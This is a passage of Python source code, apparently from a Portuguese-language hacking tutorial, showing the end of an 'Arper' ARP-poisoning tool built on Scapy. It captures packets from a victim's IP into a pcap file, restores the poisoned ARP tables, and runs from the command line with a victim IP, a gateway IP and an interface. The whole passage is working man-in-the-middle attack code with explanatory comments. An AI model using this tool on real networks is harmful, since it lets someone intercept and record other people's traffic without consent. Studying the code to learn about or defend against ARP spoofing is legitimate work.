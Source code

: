 ```py
        sys.exit()
        
    # A funçao de sniff é similar à anterior para o caso do email
    def sniff(self, count=100):
        time.sleep(5)
        print(f'Capturando {count} pacotes')
        # O filtro acha apenas pacotes relacionados ao IP da vítima
        bpf_filter = "ip host %s" % self.victim
        packets = sniff(count=count, filter=bpf_filter, iface=self.interface)
        # Gera um arquivo pcap, que pode ser lido pelo Wireshark ou pelo programa que faremos em breve, com os pacotes
        wrpcap('arper.pcap', packets)
        print('Pacotes recebidos')
        # Ao final, reinicia os ARPs
        self.restore()
        # Encerra a thread de poison
        self.stop_event.set()
        print('Concluido')
    
    # Basicamente envia uma pensagem para um broadcast (veja que não tem Ether(dst) na mensagem)
    # Comn os dados originais no parametro `hwsrc`, corrigindo o MAC
    def restore(self):
        sendp(ARP(
            op=2,
            psrc=self.gateway,
            hwsrc=self.gatewaymac,
            pdst=self.victim,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5, verbose=False)           
        
        sendp(ARP(
            op=2,
            psrc=self.victim,
            hwsrc=self.victimmac,
            pdst=self.gateway,
            hwdst='ff:ff:ff:ff:ff:ff'),
            count=5, verbose=False)       
        print('\n\n\n\n\nRestaurando tabelas ARP...\n\n\n\n')

    
if __name__ == '__main__':
    # Espera 3 argumentos do usuário, iniciar um objeto Arper e o inicia
    if len(sys.argv) != 4:
        print("*** Envenenamento ARP ***\n Como usar: \n\n arper.py [IP VITIMA] [IP GATEWAY] [INTEFACE]")
        sys.exit()
    (victim, gateway, interface) = (sys.argv[1], sys.argv[2], sys.argv[3])
    myarp = Arper(victim, gateway, interface)
    myarp.run()
```
